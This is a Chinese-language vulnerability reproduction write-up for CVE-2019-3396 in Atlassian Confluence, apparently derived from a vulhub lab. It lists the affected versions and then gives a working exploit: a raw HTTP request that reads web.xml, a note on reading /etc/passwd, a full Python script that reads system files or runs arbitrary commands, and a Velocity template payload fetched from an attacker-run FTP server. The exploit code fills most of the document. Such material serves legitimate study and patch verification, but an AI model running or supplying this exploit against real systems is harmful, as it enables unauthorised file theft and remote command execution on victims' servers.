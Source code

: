 （CVE-2019-3396）Confluence 路径穿越与命令执行漏洞
==================================================

一、漏洞简介
------------

Atlassian
Confluence是企业广泛使用的wiki系统，其6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令。

二、漏洞影响
------------

    Confluence 1.*.*、2.*.*、3.*.*、4.*.*、5.*.*

    Confluence 6.0.*、6.1.*、6.2.*、6.3.*、6.4.*、6.5.*

    Confluence 6.6.* < 6.6.12

    Confluence6.7.*、6.8.*、6.9.*、6.10.*、6.11.*

    Confluence 6.12.* < 6.12.3

    Confluence 6.13.* < 6.13.3

    Confluence 6.14.* < 6.14.2

三、复现过程
------------

发送如下数据包，即可读取文件`web.xml`：

    POST /rest/tinymce/1/macro/preview HTTP/1.1
    Host: localhost:8090
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
    Content-Type: application/json; charset=utf-8
    Content-Length: 176

    {"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"../web.xml"}}}

![](./.resource/(CVE-2019-3396)Confluence路径穿越与命令执行漏洞/media/rId24.png)

6.12以前的Confluence没有限制文件读取的协议和路径，我们可以使用`file:///etc/passwd`来读取文件，也可以通过`https://...`来加载远程文件。

该文件是一个Velocity模板，我们可以通过模板注入（SSTI）来执行任意命令：

![](./.resource/(CVE-2019-3396)Confluence路径穿越与命令执行漏洞/media/rId25.png)

### poc

> 首先需要一台外网的服务器

    1.使用FTP加载vm文件  
    2.修改filename为自己的vm文件路径，例如 filename = "ftp://192.168.50.181/rce.vm"  
    3.python CVE-2019-3396.py [http://ip:port](http://ip) "whoami"

> CVE-2019-3396.py

    # -*- coding: utf-8 -*-
    import re
    import sys
    import requests

    def _read(url):
        result = {}
        # filename = "../web.xml"
        filename = 'file:////etc/group'

        paylaod = url + "/rest/tinymce/1/macro/preview"
        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
            "Referer": url + "/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&",
            "Content-Type": "application/json; charset=utf-8"
        }
        data = '{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"%s"}}}' % filename
        r = requests.post(paylaod, data=data, headers=headers)
        # print r.content
        if r.status_code == 200 and "wiki-content" in r.text:
            m = re.findall('.*wiki-content">n(.*)n            </div>n', r.text, re.S)

        return m[0]

    def _exec(url,cmd):
        result = {}
        filename = "ftp://192.168.50.181/rce.vm"

        paylaod = url + "/rest/tinymce/1/macro/preview"
        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
            "Referer": url + "/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&",
            "Content-Type": "application/json; charset=utf-8"
        }
        data = '{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"http://www.dailymotion.com/video/xcpa64","width":"300","height":"200","_template":"%s","cmd":"%s"}}}' % (filename,cmd)
        r = requests.post(paylaod, data=data, headers=headers)
        # print r.content
        if r.status_code == 200 and "wiki-content" in r.text:
            m = re.findall('.*wiki-content">n(.*)n            </div>n', r.text, re.S)

        return m[0]

    if __name__ == '__main__':
        url = sys.argv[1]
        cmd = sys.argv[2]
        print _exec(url,cmd)

> rce.vm

    #set ($e="exp")
    #set ($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd))
    #set ($input=$e.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
    #set($sc = $e.getClass().forName("java.util.Scanner"))
    #set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.InputStream")))
    #set($scan=$constructor.newInstance($input).useDelimiter("\A"))
    #if($scan.hasNext())
        $scan.next()
    #end

参考链接
--------

> https://vulhub.org/\#/environments/confluence/CVE-2019-3396/
